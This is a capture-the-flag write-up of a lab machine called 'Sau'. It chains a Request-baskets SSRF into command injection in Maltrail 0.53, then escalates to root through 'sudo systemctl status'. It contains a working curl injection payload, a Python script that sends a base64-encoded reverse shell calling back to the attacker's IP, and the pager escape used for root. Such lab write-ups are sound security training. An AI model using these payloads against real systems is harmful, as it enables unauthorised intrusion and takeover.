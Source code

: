 Running Nmap we found some http service in the port 55555, checking the url http://10.10.11.224:55555 we found a webapp called Request-baskets v1.2.1. This app is used to collect and inspect HTTP requests. and googling that we found a SSRF vulnerability **[CVE-2023-27163](https://gist.github.com/b33t1e/3079c10c88cad379fb166c389ce3b7b3)** and after trying to upload some shells we don't get a proper access so let's try to dive in the web application.

We create a new basket and checking the configuration we can set a forward url

![[Pasted image 20230807145907.png]]

![[Pasted image 20230807150009.png]]

We saw in the nmap enumeration a filtered 80 http port, so let's try to redirect the server to its own ip, to the port 80. After that, if we access to the provided url it will be redirected to port 80, where we can find an outdated app called Mailtrail version 0.53

![[Pasted image 20230807151106.png]]

Checking info for this app we found that is vulnerable to RCE through the `/login` page so let's change the forward url to `http://127.0.0.1:80/login` and now we have the login page

![[Pasted image 20230807151658.png]]

The **[POC](https://huntr.dev/bounties/be3c5204-fbd9-448d-b97c-96a8d2941e87/)** says that we can have a command execution passing the command to execute through username variable like this

```bash
curl 'http://hostname:8338/login' --data 'username=;`whoami`'
```

Base on this **[exploit](https://github.com/spookier/Maltrail-v0.53-Exploit/tree/main)** we forge our following exploit which gets a reverse shell and points to a our ip on port 1234

```python
import os;
import base64;

payload = f'python3 -c \'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.14",1234));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")\''
encoded_payload = base64.b64encode(payload.encode()).decode()  # encode the payload in Base64
command = f"curl 'http://10.10.11.224:55555/6mx3uvo' --data 'username=;`echo+\"{encoded_payload}\"+|+base64+-d+|+sh`'"
os.system(command)
```

So executing the script we grab a shell with a netcat listener

```bash
┌──(kali㉿kali)-[~/Documents/Boxes/Sau-10.10.11.224]
└─$ python script.py

--------------------

┌──(kali㉿kali)-[~]
└─$ nc -nvlp 1234
listening on [any] 1234 ...
connect to [10.10.14.14] from (UNKNOWN) [10.10.11.224] 56776
$ whoami
puma
```

Upgrade TTY, and lets escalate privileges

```bash
puma@sau:/opt/maltrail$ sudo -l
Matching Defaults entries for puma on sau:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
```

Our user can execute systemctl status for trail service as root so lets google that. Here we find **[this](https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/sudo-systemctl-privilege-escalation/)** page which says the following

![[Pasted image 20230807153356.png]]

So executing the command as sudo and writing `!sh` in the pager should give us a shell as root

```bash
puma@sau:/opt/maltrail$ sudo systemctl status trail.service
WARNING: terminal is not fully functional
-  (press RETURN)  !sh
# whoami
root
```

And we are root